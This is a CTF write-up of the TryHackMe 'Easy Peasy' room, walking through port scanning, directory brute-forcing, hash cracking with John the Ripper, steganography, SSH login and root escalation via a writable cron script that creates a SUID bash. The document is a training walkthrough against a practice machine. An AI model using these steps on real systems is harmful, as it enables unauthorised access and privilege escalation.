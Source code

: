 ```yaml
---
slug: easy-peasy
title: Easy Peasy
authors: [hueami]
tags: [tryhackme, ctf]
---
```

Welcome to my first write-up for the CTF room [Easy Peasy on tryhackme](https://tryhackme.com/room/easypeasyctf). Let's dive into the fascinating world of Capture The Flag challenges!

### Task 1: Enumeration through nmap

1. Our first step is to understand the landscape we're dealing with. We'll start by enumerating all the ports using nmap.

```bash
$ sudo nmap 10.10.160.74 -p0-

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:33 CET
Nmap scan report for 10.10.160.74
Host is up (0.057s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
6498/tcp  open  unknown
65524/tcp open  unknown
```
This fast enumeration over all ports gives us our first piece of the puzzle - the number of open ports.
Next, we perform a detailed scan over the open ports.

```bash
sudo nmap 10.10.160.74 -p080,6498,65524 -sV -A -T5

Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-03 21:40 CET
Nmap scan report for 10.10.160.74
Host is up (0.050s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-server-header: nginx/1.16.1
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
|_  256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 2.6.32 (93%), Linux 3.1 - 3.2 (93%), Linux 3.11 (93%), Linux 3.2 - 4.9 (93%), Linux 3.7 - 3.10 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   51.18 ms 10.8.0.1
2   51.32 ms 10.10.5.48
```
This information helps us to answer questions 2 and 3.

### Task 2: Compromising the machine 
With our enumeration complete, we move on to compromising the machine.

The room provides a task file that appears to be a wordlist. We’ll save this for later use.
We then proceed to scan subdirectories using feroxbuster, with the directory wordlist `SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt``.
```bash
$ feroxbuster -u http://10.10.160.74 -w ~/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```
Feroxbuster uncovers a directory with another subdirectory. Both directories contain an image, but only the second subdirectory contains hidden information in the source code.

The string appears to be base64 encoded, so we decode it:

```bash
echo ZmxhZ3tmMXJz**********== | base64 -d
```
Decoded string is the flag asked for in question 1.

The two images do not seem to contain valuable information. I checked the EXIF information and tried to find some hidden messages with an [steganography tool](https://futureboy.us/stegano/decinput.html), but had no success. So, I continued to look at the Apache webserver running on port 65524.

The index.html served on port 65524 displayed a default Apache site. The flag for question 3 is hidden in the text.

The robots.txt file (nikto found it) shows me a strange string with the message that this agent may enter. Using it as a custom user agent does not work. I tried several online hash rainbow tables, e.g. [crackstation](https://crackstation.net/), [nitrxgen](https://www.nitrxgen.net/), [hashes.com](https://hashes.com/en/decrypt/hash), [md5hashing](https://md5hashing.net). Search in all types of [md5hashing](https://md5hashing.net) finally finds the flag for question 2.

Looking at the sourcecode revealed a hidden message:
`<p hidden>its encoded with ba....:ObsJmP173N2X6d**********</p>`
I tried several baseX encodings with [cyberchef](https://gchq.github.io/CyberChef/) until I had a hit: `/n0th1ng**********` - looks like a directory and the answer to question 4.

There are two images in the subdirectory. The binary code shown is rubbish. The steganography tool is not able to find a message. In the page source in the subdirectory, I found the string `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e********`. I tried [crackstation](https://crackstation.net/) - no results. So I ran John the Ripper on the string with the previously saved wordlist `easypeasy.txt`:

```bash
$ echo 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e******** > easypeasy
$ john --wordlist=~/Downloads/easypeasy.txt ./easypeasy
```
John gets a result: `m*****************b`
This is the answer for question 5.

I try this password with the two images in the [steganography tool](https://futureboy.us/stegano/decinput.html) - the binary code image is a hit. I get a username `b****g` and a binary encoded password `i**************************y`. The password is the answer for question 6.

With a username and a password, I try to use them for the SSH service that Nmap found on port 6498. It works perfectly fine. The user flag is located in the user’s home as expected, but it looks wrong:

```bash
$ cat user.txt
User Flag But It Seems Wrong Like It`s Rotated Or Something
s********************}
```

This is a hint on the used encryption - the Caesar (or ROT) cipher. The first letter s should be an f for flag, I guessed. That meant I had to rotate by 13 characters - ROT13. Flag found and question 7 solved.

A message caught my attention:

```bash
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
```
This suggested that there might be a cron job running that I could exploit to gain root access. To confirm this, I checked the crontab file:

```bash
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```
Indeed, there was a shell script named `.mysecretcronjob.sh` running every minute with root permissions. Checking the permissions of the file showed that the owner was the current user and they had permission to write to this file. This opened up a lot of options for exploitation. I decided to modify the script to make a copy of bash and set the SUID bit, so it would run with its owner’s (root) permissions.

```bash
echo 'cp /bin/bash /var/www/bash; chmod +s /var/www/bash' > /var/www/.mysecretcronjob.sh
```
A few moments later, the modified bash was available. Executing it with the argument `-p` ensured that it did not drop the root privilege, as it would normally do. With the root shell, I was now able to read the root flag:

```bash
$ cat /root/.root.txt
```
The flag looked like there would be a hash to crack again - but fortunately, the form for question 8 accepted it and I did not have to crack a hash again.

And that concludes our journey through this CTF challenge. I hope you found it insightful and engaging. Stay tuned for more adventures in the world of IT security!